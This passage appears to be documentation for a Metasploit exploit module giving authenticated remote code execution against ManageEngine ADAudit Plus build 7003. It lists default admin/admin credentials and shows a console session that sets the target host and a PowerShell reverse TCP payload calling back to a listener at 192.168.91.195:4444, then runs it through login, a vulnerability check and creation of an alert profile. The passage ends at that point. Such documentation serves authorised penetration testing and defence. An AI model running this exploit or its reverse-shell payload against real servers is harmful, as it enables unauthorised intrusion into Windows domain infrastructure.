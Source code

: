 ### USERNAME
Username to authenticate with. The default is `admin`, which matches the default ADAudit Plus credentials.

### PASSWORD
Password to authenticate with. The default is `admin`, which matches the default ADAudit Plus credentials.

## Scenarios
### ManageEngine ADAudit Plus build 7003 running on Windows Server 2012 R2
```
msf6 exploit(windows/http/manageengine_adaudit_plus_authenticated_rce) > options

Module options (exploit/windows/http/manageengine_adaudit_plus_authenticated_rce):

   Name         Current Setting             Required  Description
   ----         ---------------             --------  -----------
   AUTH_DOMAIN  ADAuditPlus Authentication  yes       ADAudit Plus authentication domain (default is ADAuditPlus Authentication)
   PASSWORD     admin                       yes       Password to authenticate with
   Proxies                                  no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS       192.168.91.250              yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT        8081                        yes       The target port (TCP)
   SSL          false                       no        Negotiate SSL/TLS for outgoing connections
   TARGETURI    /                           yes       The base path to ManageEngine ADAudit Plus
   USERNAME     admin                       yes       Username to authenticate with
   VHOST                                    no        HTTP server virtual host


Payload options (cmd/windows/powershell_reverse_tcp):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   LHOST         192.168.91.195   yes       The listen address (an interface may be specified)
   LOAD_MODULES                   no        A list of powershell modules separated by a comma to download over the web
   LPORT         4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows Command


msf6 exploit(windows/http/manageengine_adaudit_plus_authenticated_rce) > run

[*] Started reverse TCP handler on 192.168.91.195:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Using configured authentication domain alias LIES.
[*] Trying to authenticate...
[*] Found 1 configured domain(s):
[*] - LIES.local: LIES.local
[+] Successfully authenticated
[+] The target appears to be vulnerable. The target is ADAudit Plus 7003
[*] Attempting to create an alert profile
[+] Successfully created alert profile UiYnupjyi24
```